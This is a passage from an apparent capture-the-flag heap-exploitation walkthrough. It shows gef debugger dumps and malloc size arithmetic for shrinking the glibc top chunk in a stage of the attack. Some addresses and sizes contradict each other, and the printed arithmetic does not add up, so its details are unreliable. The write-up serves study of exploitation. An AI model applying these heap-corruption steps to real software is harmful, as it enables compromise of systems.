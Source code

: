 ### Stage 2: Free 2 small chunks

Now, we will continue using the above technique to free 2 top chunk with small size. Do you still remember we have already chunk index 1 which in the new page of heap? This time, we will reuse that to overwrite the new top chunk size again.

Before we do that, let’s see the new top chunk size next to chunk 1. Because I re-run program so address changed. This is new stack address:

```
0x00007ffec709f4d0│+0x0000: "puts(C)\n"  ← $rax, $rsp, $rdi
0x00007ffec709f4d8│+0x0008: 0x00000a2936353200
0x00007ffec709f4e0│+0x0010: 0x0000557c12fa02a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffec709f4e8│+0x0018: 0x0000557c12fc1010  →  0x0000000000000000    <-- Chunk index 1
0x00007ffec709f4f0│+0x0020: 0x0000557c12fa02c0  →  0x00007f5c373161e0    <-- Chunk index 2
0x00007fffcd05f248│+0x0028: 0x0000000000000000
0x00007fffcd05f250│+0x0030: 0x0000000000000000
0x00007fffcd05f258│+0x0038: 0x0000000000000000
```

So new top chunk size now is:

```
gef➤  # x/4xg <chunk index 1> + 0x1000
gef➤  x/4xg 0x000055cb4beae010 + 0x1000
0x557c12fc2010: 0x0000000000000000  0x0000000000020ff1
0x557c12fc2020: 0x0000000000000000  0x0000000000000000
```

We need to make top chunk size smaller such as 0x300, so we need to malloc another chunk with the size `0xcf0` with this calculation:

```
0xff1 - 0x300 - 0xcf1
```

We will want to malloc `0xcf0-0x10` because there is heap metadata, so if we `malloc(0xcf0)`, the total size will be `0xcf0 + 0x10 = 0xd00`:

```
malloc(1, 0xcf0-0x10)
```

Why I use index 1? Just because we don’t use those 0x1000 byte of chunk 1 anymore so we reuse index 1 again. After `malloc(1, 0xcf0-0x10)`, the stack where chunk 1 is placed changed:

```
0x00007ffec709f4d0│+0x0000: "B=malloc(3296)\n"   ← $rax, $rsp, $rdi
0x00007ffec709f4d8│+0x0008: "(3296)\n"
0x00007ffec709f4e0│+0x0010: 0x0000557c12fa02a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffec709f4e8│+0x0018: 0x0000557c12fc2020  →  0x0000000000000000    <-- Chunk index 1
0x00007ffec709f4f0│+0x0020: 0x0000557c12fa02c0  →  0x00007f5c373161e0    <-- Chunk index 2
0x00007ffec709f4f8│+0x0028: 0x0000000000000000
0x00007ffec709f500│+0x0030: 0x0000000000000000
0x00007ffec709f508│+0x0038: 0x0000000000000000
```

Let’s check if our top chunk size if changed correctly:
